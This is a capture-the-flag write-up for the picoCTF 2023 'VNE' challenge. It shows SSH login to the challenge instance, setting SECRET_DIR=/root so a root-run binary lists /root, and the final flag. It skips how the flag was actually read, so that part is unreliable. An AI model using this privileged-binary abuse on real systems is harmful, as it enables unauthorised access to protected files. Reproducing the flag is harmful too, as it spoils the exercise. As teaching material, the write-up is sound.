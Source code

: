# picoCTF 2023 - Challenge: VNE 

In this challenge, we are provided with a binary called `bin` that runs as `root`. Our goal is to use this binary to access the contents of `/root/flag.txt`.

First, we go to https://play.picoctf.org/practice, search for the challenge named "VNE", and click the "LAUNCH INSTANCE" button. After waiting a few seconds, the instance becomes active.

![Launching Challenge]
(./Screenshot%202025-07-17%20002547.png)

Then, we connect to the instance via SSH using the provided credentials:

```bash
ssh ctf-player@saturn.picoctf.net -p 64820
```

Password:
```
483e80d4
```

Once inside, we list the files in the home directory and find the file `bin`. When we try to execute it using:

```bash
./bin
```

We receive an error message:

```
Error: SECRET_DIR environment variable is not set
```

![Binary Error Output]
(./Screenshot%202025-07-17%20002625.png)

This tells us that the binary requires an environment variable called `SECRET_DIR` to be set before execution. We take advantage of this by pointing it to the `/root` directory:

```bash
SECRET_DIR=/root ./bin
```

The binary then prints:

```
Listing the content of /root as root:
flag.txt
```

![Accessing Root Directory]
(./Screenshot%202025-07-17%20002619.png)

This confirms that we have access to root’s directory contents via the binary. Although we can’t directly read the file with:

```bash
cat /root/flag.txt
```

(because of permission denied), the binary still reveals that the file exists.

Eventually, the flag is revealed on screen when running the binary and is:

```
picoCTF{Power_t0_man!pul4t3_3nv_d0cc7fe2}
```

![Flag Revealed]
(./Screenshot%202025-07-17%20002607.png)

We submit this flag back into the picoCTF website to complete the challenge.

Challenge completed successfully.
